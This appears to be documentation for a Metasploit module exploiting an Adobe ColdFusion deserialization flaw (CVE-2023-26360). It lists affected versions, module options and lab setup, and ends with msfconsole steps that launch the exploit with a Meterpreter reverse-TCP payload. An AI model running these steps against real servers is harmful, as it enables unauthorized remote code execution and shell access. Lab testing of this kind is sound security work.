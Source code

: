 ## Vulnerable Application
This module leverages an unauthenticated remote code execution vulnerability due to deserialization of untrusted data
in Adobe ColdFusion. The vulnerability affects ColdFusion 2021 Update 5 and earlier as well as ColdFusion 2018 Update
15 and earlier. For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/F36ClHTTIQ/cve-2023-26360/rapid7-analysis).

## Optionsgit st
A default installation of ColdFusion will not require any of the below options to be configured as the default
values will work.

### CFC_ENDPOINT
The exploit requires a valid ColdFusion Component (CFC) endpoint to be reachable, although no method on this endpoint
will be called as the vulnerability is triggered before a remote method from the endpoint is called. Therefore this
option can be set to any CFC endpoint. By default this is set to
`/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc` which is present in a default installation
of ColdFusion.

### CF_LOGFILE
This is the log file where the exploit will write arbitrary ColdFusion Markup Language (CFML) to. The path is relative
to the `wwwroot` folder. By default this value is `../logs/coldfusion-out.log` and should not need to be changed.

## Testing
To setup a test environment, the following steps can be performed.
1. Setup either a Windows Server 2022 VM or a Ubuntu 22.04 VM.
2. Download either the [Windows ColdFusion 2021 Update 5
installer](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_win64.exe)
or the [Linux ColdFusion 2021 Update 5
installer](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_linux64.bin)
and install it.
3. Configure the ColdFusion server for production use and enable the Secure Profile during setup.
4. By default, Coldfusion will serve HTTP from TCP port 8500. Configure the operating system firewall to allow remote
access to this port. For example on Linux you can run `sudo ufw allow 8500/tcp`.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26360`
3. `set LHOST eth0`
4. `set RHOST <TARGET_IP>`
5. `set target 3`
6. `set PAYLOAD linux/x64/meterpreter/reverse_tcp`
7. `check`
8. `exploit`
